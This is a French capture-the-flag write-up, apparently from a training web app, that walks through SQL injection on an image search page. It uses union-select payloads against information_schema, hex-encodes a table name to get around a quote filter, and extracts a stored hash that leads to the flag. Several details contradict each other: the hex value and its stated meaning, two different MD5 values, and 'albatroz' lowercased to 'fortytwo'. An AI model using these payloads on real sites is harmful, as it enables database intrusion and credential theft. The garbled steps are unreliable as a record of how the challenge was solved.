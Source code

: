 
On display les informations concernant la base de donnée SQL grace a information_schema.tables

Dans la barre de recherche de la page 'image':
1 union select table_schema,table_name from information_schema.tables

On voit qu'il existe une table list_images, il faut maintenant récupérer la value des columns pour trouver un couple identifiant/mot de passe. Pour contrer la sécurité sur les quotes qui nous empêche de demander directement la table users on convertit le nom de la table en hexa.

1 union select null,group_concat(column_name) from information_schema.columns where table_name = 0x6c6973745f696d61676573 # (0x6c6973745f696d61676573 == users en hexa seul moyen pour que table_name accept l'input)


Il nous reste plus qu'a choisir les columns que l'on souhaite


1 union select title,comment from list_images


result : 

ID: 1 union select title,comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?



md5 hash : 5928e8083cf461a51303633093573c46 =  albatroz
lower all char  = fortytwo
hash Sh256 = f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
